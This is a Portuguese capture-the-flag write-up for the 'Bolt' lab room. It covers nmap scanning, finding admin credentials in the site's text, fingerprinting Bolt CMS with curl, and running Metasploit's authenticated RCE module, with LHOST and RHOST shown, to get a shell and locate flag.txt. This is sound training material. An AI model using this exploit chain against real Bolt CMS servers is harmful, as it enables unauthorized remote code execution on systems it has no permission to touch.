





# _**Bolt CTF**_


## _**Enumeração**_
Primeiro, começamos com um scan do <mark>Nmap</mark>
> ```bash
> nmap -p 0-10000 -A -T5 [ip_address]
> ```
Para o _**username**_ que pode ser encontrado, podemos ver na página, nome da sala e afins: <mark>Bolt</mark>  
Acessando o site na porta 8000 através de <mark>[ip_address]:8000</mark> e vasculhando a página, podemos encontrar o seguinte trecho de texto  



Algumas das informações relevantes são:
* senha → </mark>boltadmin123</mark>
* </mark>jake (admin)</mark>

Para identificar o CMS que está na página, primeiro, vamos buscar com o comando cURL
> ``` bash
> curl -S http://[ip_address]:8000 | grep -iE "generator|content|version"
> ```


Obtemos que o CMS é <mark>bolt</mark>
Novamente utilizando um cURL, conseguimos obter a página de login
> ``` bash
> curl -s http://[ip_address]:8000/bolt
> ```


Uma tentativa de login com o usuário e senha descobertos foi feita, mas sem sucesso  
Uma nova tentativa de login é feita com o usuário <mark>Bolt</mark> e então, sucesso!  
Podemos identificar a versão do CMS no canto inferior esquerdo  



[Sabendo a versão e buscando em exploit-db versões anteriores e por RCE, temos que a versão 3.7.0 possui essa vulnerabilidade e seu número é 48296](https://www.exploit-db.com/exploits/48296)

Abrimos o metasploit com <mark>msfconsole</mark>
Dando um search por <mark>bolt</mark>, temos que o primeiro exploit é o que será usado nesta sala
_**exploit/unix/webapp/bolt_authenticated_rce**_

Configurações adicionais:
* _**set LHOST [ip_vpn]**_
* _**set RHOST [ip_address]**_
* _**set USERNAME Bolt**_
* _**set PASSWORD boltadmin123**_  
exploit

Após conseguir RCE, basta buscar pelo arquivo _flag.txt_ com o comando _**find**_
```bash
find / -name "flag.txt" 2>/dev/null
```
